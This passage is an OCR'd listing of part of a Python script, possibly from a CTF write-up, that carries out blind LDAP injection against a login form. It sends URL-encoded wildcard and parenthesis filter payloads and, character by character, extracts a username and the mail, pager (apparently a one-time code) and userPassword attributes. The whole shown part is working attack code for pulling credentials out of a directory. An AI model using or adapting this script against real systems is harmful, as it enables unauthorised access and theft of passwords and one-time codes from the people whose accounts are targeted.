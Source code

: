      15                 break
     16             except requests.exceptions.ConnectionError:
     17                 time.sleep(10)
     18                 continue
     19         if 'Cannot login' in resp.text:
     20             sys.stdout.write(c)
     21             sys.stdout.flush()
     22             return c
     23     return ''
     24 
     25 
     26 def brute_username():
     27 
     28     username = ''
     29     while True:
     30         next_char = brute_next_char(f'{username}{{c}}%2a', string.ascii_lowercase)
     31         if next_char == '':
     32             break
     33         username += next_char
     34     print()
     35     return username
     36 
     37 
     38 def brute_attribute(attrib, character_set):
     39 
     40     otp = ''
     41     while True:
     42         next_dig = brute_next_char(f'ldapuser%29%28{attrib}%3d{otp}{{c}}%2a', character_set)
     43         if next_dig == '':
     44             break
     45         otp += next_dig
     46     print()
     47     return otp
     48 
     49 options = 'all username mail pager userPassword'.split(' ')
     50 user_opt = sys.argv[1] if len(sys.argv) > 1 else 'all'
     51 
     52 if user_opt not in options:
     53     print("Usage: {} [attribute]\nAvailable Options:\n  {}\n".format(sys.argv[0], '\n  '.join(options)))
     54     sys.exit()
     55 
     56 if user_opt in ['all', 'username']:
     57     print("Bruting Username")
     58     brute_username()
     59 if user_opt in ['all', 'mail']:
     60     print("Bruting mail")
     61     brute_attribute('mail', string.ascii_lowercase + string.digits + '@.')
     62 if user_opt in ['all', 'pager']:
     63     print("Bruting pager")
     64     brute_attribute('pager', string.digits)
     65 if user_opt in ['all', 'userPassword']:
     66     print("Bruting userPassword")
     67     brute_attribute('userPassword', string.printable)

